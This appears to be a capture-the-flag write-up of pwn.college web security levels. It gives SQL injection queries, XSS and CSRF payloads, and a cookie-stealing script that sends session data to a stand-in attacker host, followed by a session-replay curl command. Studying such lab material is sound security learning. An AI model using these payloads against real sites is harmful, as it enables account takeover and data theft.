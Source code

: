 # Web Security
- *level 5*: we can only control `query` in `SELECT username FROM users WHERE username LIKE "{query}"`. By testing, `db.execute()` can not execute more than one separate statement at once. Use `UNION ALL` to combine the result of 2 statements, the SQL statement being executed is `SELECT username FROM users WHERE username LIKE "%" UNION ALL SELECT password FROM users; --"`
- *level 6*: this time, the table name is unknown (`table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"`). We can use a statement `SELECT name FROM sqlite_master WHERE type='table'` to figure out the table name. To know that the server is using `sqlite`, we can just cause some error, and see the error information, e.g., `sqlite3.OperationalError: ...`
- *level 7*: an obstable is that this time, it will finally finds a user using `rowid`, and only prints out the `username` column. We can use the error information to help us to figure out 1 byte of the flag each time. Specifically, the server will first select exact one user using `username` and `password`, if the query result is empty, there will be an error `Invalid 'username' or 'password'`, we can use something like this in our query `WHERE password LIKE ?`, the `?` can be something like `pwn.college{...%`, if the prefix exists, there won't be error because the query result is not empty. Otherwise, there will be an error. So we can start from `pwn.college{`, and each time, we guess 1 character, until we get ``pwn.college{...}`. Mind that `LIKE` is case-insensitive, we should instead use `GLOB`, which is case-sensitive
- *level 8*: cross-site scripting, inject a script to trigger an alert
- *level 9*: it puts our input into `<textarea></textarea>`, we can bypass it by using `</textarea><script>alert("x")</script><textarea>` as our input
- *level 10*: we need to get the user to visit `/leak`, and then we can get the flag by visiting `/info`
- *level 11*: cross site request forgery. When visiting `challenge.localhost:80/visit?url=...`, the server only accept `hacker.localhost` as host name in the `url`, so we cannot directly get the user to visit `/leak` to leak their password (the flag). Instead, we can use a `url=http://hacker.localhost:8776/redirect=http://challenge.localhost:80/leak` to redirect the user to the leaking page. Before this, we need to open a simple server `hacker.localhost` at port `8776`, use `python -m http.server 8776 --bind hacker.localhost`
- *level 12*: the request to `/leak` must be a POST request, this time we cannot directly redirect in the URL, instead, we can redirect at the (malicious) server side
    ```
    <script>
        function submitForm() {
            var form = document.createElement('form');
            form.method = 'POST'; // Set the method to POST
            form.action = 'http://challenge.localhost:80/leak';
            document.body.appendChild(form);
            form.submit();
        }
        window.onload = submitForm;
    </script>
    ```
- *level 13*: exploit a  XSS vulnerability to exfilitrate user session data. We can steal the session ID in the cookie, and send a request to `/info` with it. This time, I hosted the malicious script in a remote server, and get the server to run it by injecting `<script src="http://hacker.localhost:8776/hacker_script.js"></script>`, this script will visit the hacker's server with `document.cookie` as a parameter in the URL, so by inspecting the print out information on the hacker's server, we can figure out the session ID
    - `127.0.0.1 - - [15/Mar/2024 13:18:00] "GET /?cookie=session=eyJ1c2VyIjoxfQ.ZfRKiA.YIsk5t_9cSqsYhYhmJxsU5FTuS4 HTTP/1.1" 200 -`
    - `curl -b "session=eyJ1c2VyIjoxfQ.ZfRKiA.YIsk5t_9cSqsYhYhmJxsU5FTuS4" http://challenge.localhost:80/info?user=1`
- *level 14*: level 13 set `app.config['SESSION_COOKIE_HTTPONLY'] = False`, this will not prevent scripts to access the session cookie (so we can use `document.cookie` to get it). In this level, this setting is removed, so we will not be able to use previous method to get the session ID. The `/visit` page only return `Visited`, if we visit `/info` through `/visit`, we can use `/echo` to inject a script, and visit `/info` in that script, since the script is running on the server side, we don't need to know the session ID. Then, inside the script, we get the response from `/info`, although it will not be printed out, we can use the same method in level 13, visit the hacker's server and embed this result in the URL
